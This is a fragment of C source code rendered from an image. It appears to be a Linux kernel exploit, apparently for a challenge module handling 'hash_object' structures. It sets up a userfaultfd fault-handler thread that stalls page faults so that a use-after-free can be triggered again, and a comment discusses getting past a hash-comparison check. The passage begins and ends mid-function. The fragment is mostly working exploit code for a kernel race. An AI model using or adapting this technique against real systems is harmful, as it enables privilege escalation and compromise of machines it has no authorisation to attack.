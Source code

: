 ```c
        uffdio_copy.src = buf;
        uffdio_copy.dst = (unsigned long long) msg.arg.pagefault.address &
                                              ~(uffd_src_page_size - 1);
        uffdio_copy.len = PAGE_SIZE;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1){
            printf("ioctl-UFFDIO_COPY");
            exit(-1);
        }
        break;
    }
}

static void *
fault_handler_thread_1(void *arg)
{
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) arg;

    for (;;) 
    {
         /* See what poll() tells us about the userfaultfd. */
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1){
            printf("[-] poll");
            exit(-1);
        }
         /* Read an event from the userfaultfd. */
        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0){
            printf("[-] read");
            exit(-1);
        }
        if (nread == -1){
            printf("[-] read");
            exit(-1);
        }
        if (msg.event != UFFD_EVENT_PAGEFAULT){
            printf("Unexpected event on userfaultfd\n");
            exit(-1);
        }
        printf("    UFFD_EVENT_PAGEFAULT event: \n");
        printf("flags = %"PRIx64"; \n", msg.arg.pagefault.flags);
        printf("address = %"PRIx64"\n", msg.arg.pagefault.address);

        // content here
        // do uaf again
        hash_object h2;
        h2.content = "aaaa"; // should not be this or cannot bypass the check `memcmp(hash, hash_other, HASH_SIZE) != 0` 
```